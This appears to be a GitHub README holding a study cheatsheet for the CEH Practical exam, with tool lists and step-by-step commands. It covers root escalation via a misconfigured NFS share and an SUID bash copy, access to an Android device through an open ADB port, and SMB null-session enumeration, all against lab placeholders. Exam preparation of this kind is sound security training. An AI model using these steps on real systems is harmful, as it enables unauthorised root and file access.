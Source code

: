 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
# PRACTICAL TIME
https://github.com/dhabaleshwar/CEHPractical/blob/main/Everything%20You%20Need.md
https://github.com/CyberHackPr/CEH_PRACTICAL/pulls Click Here for Notes

Exam RoadMap
1,2,8,11,12,16,17,18,20,7 (10 marks)  10,19,4,5,15,14,13,6,3,9  

**Priviledge Escalation**
Exploiting misconfigured NFS (port 2049)
1.	nmap -sV —p 2049 IP/Subnet
2.	sudo apt-get install nfs-common
3.	nmap -sV —script=nfs-showmount <Target_IP>
4.	check available mounts: showmount -e <Target_IP> -> we will see /home directory
5.	mkdir /tmp/nfs
6.	sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
7.	cd /tmp/nfs
8.	sudo cp /bin/bash .
9.	sudo chmod +s bash -> it will be highlighted in red
10.	ls -la
11.	sudo df -h
12.	sudo chmod +s bash
after them, In another terminal:
1.	Access to target using SSH
2.	./bash -p and we're root!
3.	cd /home
4.	ls -la
5.	Find the flag: find / -name "*.txt" -ls 2> /dev/null

**ADB Android Hacking** 
Perform deep scan on the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value locate into android folder
1.	Scan adb port: nmap ip -sV -p 5555
2.	Connect adb: adb connect IP:5555
3.	Access mobile device: adb shell
4.	Elevate privilege using: sudo -i (if it is possile)
5.	pwd --> ls --> cd sdcard/Notifications/Scan --> ls --> cat secret.txt (If you can't find, check in others folders)
6.	Download files: adb pull /sdcard/Notifications/Scan Do it in another shell, without adb connection!
7.	We've three elf files, now we need to calculate entropy for each of them using this command: ent file.elf
8.	After selecting file.elf with highest entropy, we need to calculate hash of SHA 384: sha384sum file.elf and consider only the last 4 digits of the hash result.

SMB Connection
1. smbclient -L <TARGET_IP> -N
2. smbclient -L <TARGET_IP> -U <USER>
3. smbclient //<TARGET_IP>/<USER> -U <USER>
4. smbclient //<TARGET_IP>/admin -U admin
5. smbclient //<TARGET_IP>/public -N #NULL Session
## SMBCLIENT
1. smbclient //<TARGET_IP>/share_name
2. help
3. ls
4. get <filename>


